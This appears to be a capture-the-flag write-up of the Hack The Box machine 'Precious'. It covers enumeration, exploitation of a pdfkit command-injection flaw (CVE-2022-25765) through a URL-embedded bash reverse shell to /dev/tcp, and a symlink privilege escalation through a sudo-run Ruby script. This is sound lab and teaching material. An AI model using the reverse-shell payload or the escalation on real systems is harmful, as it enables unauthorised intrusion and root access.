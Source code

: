 ## **Hack The Box - Precious**

**Creator:** [Nauten](https://app.hackthebox.com/users/27582)

**Difficulty:** Easy

**Link:** [Precious](https://app.hackthebox.com/machines/513)

---

<ins> **Introduction** <ins>


![infocard](/docs/assets/images/HTB/precious/precious01.png)

*Precious* is an Easy level Linux system on Hack The Box. This machine had me exploit [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765). Which is a *Command Injection* vulnerability when the URL is not properly sanitized on systems running versions of *pdfkit* older than 0.8.7.2.
Once inside the system I was able to enumerate login credentials for a user with sudo privileges over a dependency update script. Running the script I was able to see that it called to a file that didn't exist on the system, so I created a symbolic link to the *root.txt* file named after the file called in the update script. 
Running the script again with sudo privileges caused it to output the contents of the *symbolic link*, which contained the flag I wanted.

---


<ins> **Enumeration** </ins>

I start every machine off with an *nmap service scan*.

`sudo nmap -sV -sC -O <target_ip>`

![nmap output](/docs/assets/images/HTB/precious/precious02.png)

I can see that port *22/tcp* is open to *ssh* traffic using *OpenSSH 8.4p1* and that port *80/tcp* is open to *http* traffic using *nginx 1.18.0*. I ran *searchsploit* on both but came up empty handed.

![searchsploit nginx](/docs/assets/images/HTB/precious/precious03.png)

![searchsploit openssh](/docs/assets/images/HTB/precious/precious04.png)

I also ran a *nikto* scan on the machine that didn't have very many results. There were a few notes about the header on the *nginx* but outside of that not much else.

`nikto -h <target_ip>`

![nikto](/docs/assets/images/HTB/precious/precious05.png)

---


<ins> **Web Enumeration** </ins>

When I first navigate to the web page I get an error that it doesn't exist. I noticed it convert the *url* to a *host_name*, so to view the web application I had to add the *ip_address* and the *host_name* associated with it to the */etc/hosts* file on my machine.

![/etc/hosts](/docs/assets/images/HTB/precious/precious06.png)

From there I can view a webpage that converts any *url* entered into a submission bar into a *pdf*. Seems kind of handy, except when I tested it only a blank pdf is loaded.

![webpage](/docs/assets/images/HTB/precious/precious07.png)

![blank pdf](/docs/assets/images/HTB/precious/precious08.png)

I went on to do a lot that didn't work, from running *gobuster* and loading the web application in *burp suite* to try to see if I could figure out what was going on. Eventually I got around to inspecting the page soucre of the *pdf* that is created and was able to find the service doing the conversion and it's version *pdfkit v0.8.6*.

![Inspect source](/docs/assets/images/HTB/precious/precious15.png)

![pdfkit version](/docs/assets/images/HTB/precious/precious16.png)

Searching for *pdfkit* vulnerabilities I was able to find [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

> In versions of pdfkit older than 0.87 the application could be vulnerable command injection where the URL is not properly sanitized.

![CVE](/docs/assets/images/HTB/precious/precious17.png)

---


<ins> **Exploitation**

So I just need to tack a reverse shell onto the end of the url that I have the webpage convert with *pdfkit* and catch it with a *listener* on my host system. 

`nc -l <host_ip> port`

![listener](/docs/assets/images/HTB/precious/precious19.png)

```
  http://10.129.79.142/?name=#{%20'bash -c "bash -i >& /dev/tcp/10.10.14.16/4242 0>&1"'}
```

The reverse shell was found on [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![reverse shell](/docs/assets/images/HTB/precious/precious18.png)

The payload starts with a url comprised of the ip address of the target system, `?name=` is a query parameter used to pass additional data to the server through the URL. The `#` is used to concatenate the payload. 
Everything following it gets wrapped in `{}` to indicate the text within them is a command, `%20` is a url encoded space character, then everything to follow is wrapped in `''`,  `bash -c` allows a string to be run as a command, `bash -i` starts and interactive session of bash and `>&` is used to redirect the *stdout* and *stderr* to a file descriptor.
`/dev/tcp/10.10.14.16/4242` is the file descriptor that allows the process to communicate with the *host_ip* on port 4242, then `0>&1` is used to redirect the stdin to the file descriptor.

The results is a shell with the same access rights as the process running the script on the target system, which in this case was *ruby*

![whoami](/docs/assets/images/HTB/precious/precious20.png)

Unfortunately User ruby doesn't have a lot of permissions or even access to read very many files. The home directory lists one other user *henry*, and inside of Henry's home directory is the *user.txt* file containing the user flag. *Ruby* can't read it though.

![henry](/docs/assets/images/HTB/precious/precious21.png)

![nouser.txt](/docs/assets/images/HTB/precious/precious22.png)

I looked around on the file system for anything *ruby* could do to possibly move me to another user and found nothing for a long time. Finally I decided to search for any other files related to user *henry* and found a file that had a *username:password* text format for *henry*.

![Henry Password](/docs/assets/images/HTB/precious/precious23.png)

---


<ins> **Privilege Escalation** </ins>

With Henry's password at hand I'm able to just *ssh* into the machine using the open service on port 22 and then cat the user.txt file once I'm in.

![ssh](/docs/assets/images/HTB/precious/precious24.png)

![User Flag](/docs/assets/images/HTB/precious/precious25.png)

The first thing I do when I get access to a new user on a linux machine is run `sudo -l` to see what they are allowed to do. In Henry's case they are able to run a script that will update the dependencies for *ruby* with root access without a password, so I ran it to see what all it did, which seems to be generate an error.

`sudo /usr/bin/ruby /opt/update_dependencies.rb'

![sudo -l](/docs/assets/images/HTB/precious/precious26.png)

![Dependency Error](/docs/assets/images/HTB/precious/precious27.png)

To me it looked like the script was trying to read the contents of the *dependencies.yml* file and perhaps from there it will try to write in any updates to it, except the file doesn't exist so an error gets generated.

I can create a *symbolic* link to the *root.txt* file and name it *dependencies.yml* and when I run the script using *sudo* the script should read the *root.txt* file with root privileges when it tries to call *dependencies.yml*.

```
ln -s /root/root.txt dependencies.yml 
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

![root flag](/docs/assets/images/HTB/precious/precious28.png)

![pwned](/docs/assets/images/HTB/precious/precious29.png)

---


<ins> **Final Thoughts** </ins>

This machine was definitely on the Easy side, I'm not sure that's a testament to my own skills improving so much as this one just kind of had everything laid out for me. I think it would actually be a good candidate for the "Beginner Track" if it's not already on one somewhere. 
This was my second time having a real use for symbolic links and my first time actually breaking down a reverse shell payload piece by piece to understand what exactly was going on.
I wasted a lot of time on this one just being unorganized and moving on to new tools before gathering all of the relevant information I had already found. In the future I will definitely be more organized in my approach to machines thanks to *Precious*.



